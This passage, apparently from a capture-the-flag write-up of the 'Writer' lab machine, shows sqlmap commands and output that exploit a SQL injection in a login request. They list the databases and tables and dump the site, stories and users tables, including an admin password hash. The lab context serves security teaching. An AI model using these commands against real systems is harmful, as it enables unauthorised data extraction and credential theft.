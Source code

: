 

    oxdf@parrot$ sqlmap -r login.req --dbs
    ...[snip]...
    got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
    available databases [2]:
    [*] information_schema
    [*] writer
    ...[snip]...



List the tables in `writer` (not shown, but telling it not to follow the
redirect every time from now on):



    oxdf@parrot$ sqlmap -r login.req -D writer --tables
    ...[snip]...
    Database: writer
    [3 tables]
    +---------+
    | site    |
    | stories |
    | users   |
    +---------+
    ...[snip]...



Show the data in each table:



    oxdf@parrot$ sqlmap -r login.req -D writer -T site --dump
    ...[snip]...
    Database: writer
    Table: site
    [1 entry]
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    | id   | logo          | title      | favicon          | ganalytics | description                                              |
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    | 1    | /img/logo.png | Story Bank | /img/favicon.ico | <blank>    | This is a site where I publish my own and others stories |
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    ...[snip]...
    oxdf@parrot$ sqlmap -r login.req -D writer -T stories --dump
    ...[snip]...
    oxdf@parrot$ sqlmap -r login.req -D writer -T users --dump
    ...[snip]...
    Database: writer
    Table: users
    [1 entry]
    +------+------------------+--------+----------+----------------------------------+--------------+
    | id   | email            | status | username | password                         | date_created |
    +------+------------------+--------+----------+----------------------------------+--------------+
    | 1    | admin@writer.htb | Active | admin    | 118e48794631a9612484ca8b55f622d0 | NULL         |
    +------+------------------+--------+----------+----------------------------------+--------------+
    ...[snip]...
